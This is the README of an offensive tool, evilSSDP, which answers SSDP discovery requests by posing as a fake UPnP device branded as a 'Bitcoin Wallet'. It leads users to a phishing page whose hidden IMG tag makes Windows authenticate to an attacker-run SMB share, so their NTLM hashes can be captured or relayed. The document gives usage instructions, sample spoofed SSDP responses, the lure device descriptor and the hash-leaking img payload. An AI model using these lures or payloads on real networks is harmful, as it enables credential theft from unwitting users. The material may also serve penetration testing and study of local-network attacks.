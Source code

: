 # Overview
This tool responds to SSDP multicast discover requests, posing as a generic uPNP device on a local network. Users who are tempted to open the device are shown a configurable webpage. By default, this page will load a hidden image over SMB, allowing you to capture or relay their NTLM password hash.

This works on Windows 10 systems (even if they have disabled NETBIOS and LLMNR) and requires no existing credentials to execute.

<img src=slide.png>

# Usage
You need to provide the network interface and a port. The interface is used for both the UDP SSDP interaction as well as hosting a web server for the XML files and phishing page. The port is used only for the web server.

The tool will automatically inject an IMG tag into the phishing page using the IP of the interface you provide. To work with hashes, you'll need to launch an SMB server at that interface. This can be customized in a future version.
```
usage: essdp.py [-h] [-p PORT] [-n NAME] interface

positional arguments:
  interface             Network interface to listen on.

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port for HTTP server. Defaults to 8888.
  ```

# Workflow
Devices attempting to discover shared network resources will send a UDP multicast out to 239.255.255.250 on port 1900. The source port is randomized. An example request looks like this:
```
M-SEARCH * HTTP/1.1
Host: 239.255.255.250:1900
ST: upnp:rootdevice
Man: "ssdp:discover"
MX: 3
```

To interact with this host, we need to capture both the source port and the 'ST' (Service Type) header. The response MUST be sent to the correct source port and SHOULD include the correct ST header. Note that it is not just the Windows OS looking for devices - scanning a typical network will show a large amount of requests from applications inside the OS (like Spotify), mobile phones, and other media devices. Windows will only play ball if you reply with the correct ST, other sources are more lenient.

evilSSDP will extract the requested ST and send a reponse like the following:

```
HTTP/1.1 200 OK
CACHE-CONTROL: max-age=1800
DATE: Tue, 26 Jun 2018 01:06:26 GMT
EXT: 
LOCATION: http://192.168.1.131:8888/ssdp/device-desc.xml
SERVER: Linux/3.10.96+, UPnP/1.0, eSSDP/0.1
ST: upnp:rootdevice
USN: uuid:e415ce0a-3e62-22d0-ad3f-42ec42e36563:upnp-rootdevice
BOOTID.UPNP.ORG: 0
CONFIGID.UPNP.ORG: 1
```

The location IP, ST, and date are constructed dynamically. This tells the requestor where to find more information about our device. Here, we are forcing Windows (and other requestors) to access our 'Device Descriptor' xml file and parse it. The USN is just a random string and needs only to be unique and formatted properly.

evilSSDP will pull a file from the templates folder (upnp-basic-device in POC) and dynamically plug in some variables such as your IP address. This 'Device Descriptor' file is where you can customize some juicy-sounding friendly names and descriptions. It looks like this:

```
<root>
    <specVersion>
        <major>1</major>
        <minor>0</minor>
    </specVersion>
    <device>
        <deviceType>urn:schemas-upnp-org:device:Basic:1</deviceType>
        <friendlyName>Bitcoin Wallet</friendlyName>
        <manufacturer>Bitcoin.org</manufacturer>
        <manufacturerURL>http://bitcoin.org</manufacturerURL>
        <modelDescription>Bitcoin Password Storage</modelDescription>
        <modelName>Core</modelName>
        <modelNumber>1337</modelNumber>
        <modelURL>http://bitcoin.org</modelURL>
        <serialNumber>1337</serialNumber>
        <UDN>uuid:e415ce0a-3e62-22d0-ad3f-42ec42e36563</UDN>
        <serviceList>
            <service>
                <URLBase>http://$localIp:$localPort</URLBase>
                <serviceType>urn:ecorp.co:service:ePNP:1</serviceType>
                <serviceId>urn:epnp.ecorp.co:serviceId:ePNP</serviceId>
                <controlURL>/epnp</controlURL>
                <eventSubURL/>
                <SCPDURL>/service-desc.xml</SCPDURL>
            </service>
        </serviceList>
        <presentationURL>http://$localIp:$localPort/present.html</presentationURL>
        </device>
    </root>
```

A key line in this file contains the 'Presentation URL'. This is what will load in a user's browser if they decide to manually double-click on the uPNP device. evilSSDP will host this file automatically (phish-bitcoin in POC), plugging in your source IP address into an IMG tag to access an SMB share that you can host with tools like [Impacket](https://www.coresecurity.com/corelabs-research/open-source-tools/impacket), [Responder](https://github.com/SpiderLabs/Responder), or [Metasploit](https://www.rapid7.com/db/modules/auxiliary/server/capture/smb).

The IMG tage looks like this:

```
<img src="file://///$localIp/smb/hash.jpg" style="display: none;" /><br>
```

# Customization
This is an early POC, but constructed in such a way to allow easy template creation in the future. For now, you can simply tweak the existing files in the 'templates' folder to rename the device, craft a custom phishing page, etc.

The tool currently only correctly creates devices for the uPNP 'rootdevice' device type, although it is responding to the SSDP queries for all devices types. It could be extended to provided custom answers for different devices in the pursuit of further vulnerabilities.

# Thanks
Thanks to ZeWarren and his project [here](https://github.com/ZeWaren/python-upnp-ssdp-example). I used this extensively to understand how to get the basics for SSDP working.
